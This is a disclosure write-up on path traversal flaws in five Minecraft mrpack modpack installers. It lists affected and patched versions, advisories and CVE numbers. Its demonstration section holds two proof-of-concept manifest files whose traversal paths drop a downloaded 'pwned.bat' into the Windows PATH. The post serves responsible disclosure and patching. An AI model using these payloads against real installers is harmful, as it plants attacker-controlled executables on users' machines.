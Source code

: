 ```yaml
---
title: "Five vulnerabilities found in mrpack installer implementations"
date: 2023-02-04 17:00:00 -00:00
authors:
  - Ambre Bertucci
layout: /src/layouts/Post.astro
---
```


On Tuesday, 31st January, a member of the Quilt team discovered path traversal vulnerabilities in five different mrpack
implementations, affecting MultiMC, PolyMC, Prism Launcher, ATLauncher and mrpack-install.

This article serves as a write-up for the vulnerabilities, and the affected versions.

<!-- MORE -->

# Affected software

Below you can find a table detailing the affected and patched versions for each piece of software.

| Software       | Affected versions | Patched versions |
|----------------|-------------------|------------------|
| MultiMC        | <= 0.6.16         | >= 0.7.0         |
| PolyMC         | <= 1.4.3          | >= 5.0           |
| Prism Launcher | <= 6.1            | >= 6.2 ¹         |
| ATLauncher     | <= 3.4.26.0       | >= 3.4.27.0      |
| mrpack-install | <= 0.16.2         | >= 0.16.3        |

¹: version 6.2 of Prism Launcher contains a critical bug, we recommend installing 6.3.

We recommend every user to upgrade to a patched version. If you can't, we recommend you to inspect any mrpack before
installation.

# Vulnerability details

[mrpack](https://docs.modrinth.com/docs/modpacks/format_definition/) is a modpack format popularized by the [Modrinth®](https://modrinth.com)
mod sharing platform.

It allows modpack creators to define a [`files`](https://docs.modrinth.com/docs/modpacks/format_definition/#files) array
to download various files, such as mods, during modpack installation. This can be open to path traversals by using
an absolute path (if the implementation allows it) or relative directories (`/../`) to escape the installation
folder and install a file in any directory the process has access to.

# Attack vector

While we recognize installing a modpack requires trust into the modpack maker once the modpack is run, we're of the
opinion that installing a modpack shouldn't require trust. One scenario can also be imagined where one would install
a suspicious modpack for checking its content, leading to infection in the process.

Modrinth® confirmed they have checks in place preventing such a modpack from being installed, although this
vulnerability still affects modpacks installed off-site.

# Demonstration

Below you can find some example `modrinth.index.json` files that once put into a mrpack would install a `pwned` binary
inside the user PATH. They assume the relevant tool is installed at the default location, except for `mrpack-install`
which will depend on the execution location.

## MultiMC, PolyMC, Prism Launcher, mrpack-install

```json
{
  "formatVersion": 1,
  "game": "minecraft",
  "versionId": "exploit-demo",
  "name": "Exploit demo",
  "files": [
    {
      "path": "..\\..\\..\\..\\..\\..\\..\\AppData\\Local\\Microsoft\\WindowsApps\\pwned.bat",
      "hashes": {
        "sha1": "f2f2afa63f7c46d966b460c6efa85505ec8e7d26",
        "sha512": "88b0dfed128d1b1dac86ef825fad577bd2fe99d79a8eb73a826a6634e6d2edadfe2fd50aa69b1009c38c7f4d1bbdd7199e2425cf3035515a794646474b3b28e8"
      },
      "env": {
        "client": "required",
        "server": "required"
      },
      "downloads": [
        "https://raw.githubusercontent.com/Akarys42/pwned/main/pwned.bat"
      ],
      "fileSize": 200
    }
  ],
  "dependencies": {
    "minecraft": "1.18.2"
  }
}
```

## ATLauncher

```json
{
  "formatVersion": 1,
  "game": "minecraft",
  "versionId": "exploit-demo",
  "name": "Exploit demo",
  "files": [
    {
      "path": "../../../../Local/Microsoft/WindowsApps/pwned.bat",
      "hashes": {
        "sha1": "f2f2afa63f7c46d966b460c6efa85505ec8e7d26",
        "sha512": "88b0dfed128d1b1dac86ef825fad577bd2fe99d79a8eb73a826a6634e6d2edadfe2fd50aa69b1009c38c7f4d1bbdd7199e2425cf3035515a794646474b3b28e8"
      },
      "env": {
        "client": "required",
        "server": "required"
      },
      "downloads": [
        "https://raw.githubusercontent.com/Akarys42/pwned/main/pwned.bat"
      ],
      "fileSize": 200
    }
  ],
  "dependencies": {
    "minecraft": "1.18.2"
  }
}
```

# Advisories

* MultiMC: none
* PolyMC: [GHSA-3rfr-g9g9-7gx2](https://github.com/PolyMC/PolyMC/security/advisories/GHSA-3rfr-g9g9-7gx2)
* Prism Launcher: [GHSA-wxgx-8v36-mj2m](https://github.com/PrismLauncher/PrismLauncher/security/advisories/GHSA-wxgx-8v36-mj2m)
* ATLauncher: [GHSA-7cff-8xv4-mvx6](https://github.com/ATLauncher/ATLauncher/security/advisories/GHSA-7cff-8xv4-mvx6)
* mrpack-install: [GHSA-r887-gfxh-m9rr](https://github.com/nothub/mrpack-install/security/advisories/GHSA-r887-gfxh-m9rr)

# CVE entries

* MultiMC: [CVE-2023-25306](https://www.cve.org/CVERecord?id=CVE-2023-25306)
* PolyMC: [CVE-2023-25305](https://www.cve.org/CVERecord?id=CVE-2023-25305)
* Prism Launcher: [CVE-2023-25304](https://www.cve.org/CVERecord?id=CVE-2023-25304)
* ATLauncher: [CVE-2023-25303](https://www.cve.org/CVERecord?id=CVE-2023-25303)
* mrpack-install: [CVE-2023-25307](https://www.cve.org/CVERecord?id=CVE-2023-25307)

# Credits

Vulnerability found and blog post written by Ambre Bertucci (Akarys)

Research inspired by Silver
